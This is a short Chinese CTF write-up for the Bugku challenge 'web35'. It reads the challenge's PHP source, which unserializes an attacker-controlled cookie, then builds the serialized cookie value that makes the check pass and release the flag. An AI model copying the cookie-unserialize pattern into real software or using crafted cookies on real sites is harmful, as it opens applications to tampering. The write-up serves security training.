



# web

## web35

1. 登录页面访问，点击却没有反应，查看源代码，`POST`表单没有提交到后台，但是加载了`admin.css`

   

2. 这里访问一下`admin.css`，有`GET`提示

   

3. 这里根据提示进行访问，代码审计

   ```php
    <?php
   error_reporting(0);
   $KEY='ctf.bugku.com';
   include_once("flag.php");
   $cookie = $_COOKIE['BUGKU'];
   if(isset($_GET['21017'])){
       show_source(__FILE__);
   }
   //当接收到的cookie反序列化后的值等于$key则输出flag
   elseif (unserialize($cookie) === "$KEY")
   {   
       echo "$flag";
   }
   else {
   ?>
   <html>
   <head>
   <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
   <title>Login</title>
   <link rel="stylesheet" href="admin.css" type="text/css">
   </head>
   <body>
   <br>
   <div class="container" align="center">
     <form method="POST" action="#">
       <p><input name="user" type="text" placeholder="Username"></p>
       <p><input name="password" type="password" placeholder="Password"></p>
       <p><input value="Login" type="button"/></p>
     </form>
   </div>
   </body>
   </html>
   
   <?php
   }
   ?> 
   ```

4. 这里要反序列化构造`cookie`进行提交

   ```php
   #构造序列化cookie值
   <?php
   $cookie='ctf.bugku.com';
   echo(serialize($cookie));
   ?>
   
   #输出
   s:13:"ctf.bugku.com";
   ```

5. 我这里利用`postman`添加cookie头部和值提交

   

   